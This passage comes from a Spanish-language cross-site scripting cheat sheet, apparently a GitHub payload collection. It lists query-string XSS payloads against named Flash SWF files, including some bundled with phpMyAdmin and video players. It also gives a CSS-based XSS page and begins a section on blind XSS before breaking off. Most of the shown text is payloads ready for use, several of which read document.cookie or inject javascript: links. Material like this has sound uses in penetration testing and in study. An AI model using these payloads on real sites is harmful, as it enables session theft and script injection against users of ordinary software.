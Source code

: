 mas payloads en ./files

### XSS en SWF flash application

```
flashmediaelement.swf?jsinitfunctio%gn=alert`1`
flashmediaelement.swf?jsinitfunctio%25gn=alert(1)
ZeroClipboard.swf?id=\"))} catch(e) {alert(1);}//&width=1000&height=1000
swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
swfupload.swf?buttonText=test<a href="javascript:confirm(1)"><img src="https://web.archive.org/web/20130730223443im_/http://appsec.ws/ExploitDB/cMon.jpg"/></a>&.swf
plupload.flash.swf?%#target%g=alert&uid%g=XSS&
moxieplayer.swf?url=https://github.com/phwd/poc/blob/master/vid.flv?raw=true
video-js.swf?readyFunction=alert(1)
player.swf?playerready=alert(document.cookie)
player.swf?tracecall=alert(document.cookie)
banner.swf?clickTAG=javascript:alert(1);//
io.swf?yid=\"));}catch(e){alert(1);}//
video-js.swf?readyFunction=alert%28document.domain%2b'%20XSSed!'%29
bookContent.swf?currentHTMLURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
flashcanvas.swf?id=test\"));}catch(e){alert(document.domain)}//
phpmyadmin/js/canvg/flashcanvas.swf?id=test\”));}catch(e){alert(document.domain)}//
```

### XSS en CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

Para mas payloads puedes consultar el cheatsheet de portswigger:

[CheatSheet XSS](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Blind XSS

Una vulnerabilidad Blind XSS ocurre cuando la vulnerabilidad se activa en una página a la que no tenemos acceso.

Las vulnerabilidades ciegas de XSS generalmente ocurren con formularios a los que solo pueden acceder ciertos usuarios (por ejemplo, administradores). Algunos ejemplos potenciales incluyen:

